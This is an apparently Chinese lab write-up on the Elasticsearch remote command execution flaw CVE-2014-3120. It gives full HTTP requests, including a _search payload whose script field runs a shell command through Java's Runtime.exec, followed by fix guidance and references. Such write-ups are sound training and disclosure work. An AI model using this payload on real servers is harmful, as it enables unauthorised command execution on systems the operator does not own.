




ElasticSearch命令执行漏洞(CVE-2014-3120)

## 一、漏洞描述

Elasticsearch 是一个基于 Lucene 库的搜索引擎，具有 HTTP Web 接口和无模式 JSON 文档。Elasticsearch 是用 Java 开发的，其支持 MVEL、js、Java 等语言，其老版本默认语言为 MVEL。

MVEL -一个被众多 Java 项目使用的开源的表达式语言。

Elasticsearch 1.2之前的版本默认配置启用了动态脚本，该脚本允许远程攻击者通过 _search 的 source 参数执行任意 MVEL 表达式和 Java 代码。

## 二、影响版本

Elasticsearch < 1.2


## 三、利用流程


1 启动 CVE-2014-3120 镜像，打开其访问地址查看，可见其版本为1.1.1





2 向 Elasticsearch 添加一条数据


其数据包为

    POST /website/blog/ HTTP/1.1
    Host: 118.193.36.37:33967
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Connection: close
    Upgrade-Insecure-Requests: 1
    Cache-Control: max-age=0
    Content-Length: 26
    
    {
      "name": "vulfocus"
    }

3 script 为最终执行 Java 代码的地方，此字段会被默认当作脚本执行，按照其 json 格式向其填充要执行的代码即可



最终目的为 /tmp 下的 flag，其数据包为

    POST /_search?pretty HTTP/1.1
    Host: 118.193.36.37:33967
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Connection: close
    Upgrade-Insecure-Requests: 1
    Cache-Control: max-age=0
    Content-Length: 361
```
{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"ls /tmp\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }
    }
}
```
4 填入得到的 flag，成功则出现 恭喜！通过




## 四、修复方案

1、升级到新版本，大于等于1.2版本即可解决此问题

2、设置 script.disable_dynamic = true，官方已在1.2版本中将 true 设置为默认值


参考：

https://nvd.nist.gov/vuln/detail/CVE-2014-3120

https://www.elastic.co/cn/community/security/

https://www.elastic.co/guide/en/elasticsearch/reference/current/modules-scripting.html

http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/search-request-script-fields.html

https://github.com/elastic/elasticsearch/issues/5853

https://vulhub.org/#/environments/elasticsearch/CVE-2014-3120/

https://www.t00ls.net/viewthread.php?tid=29408
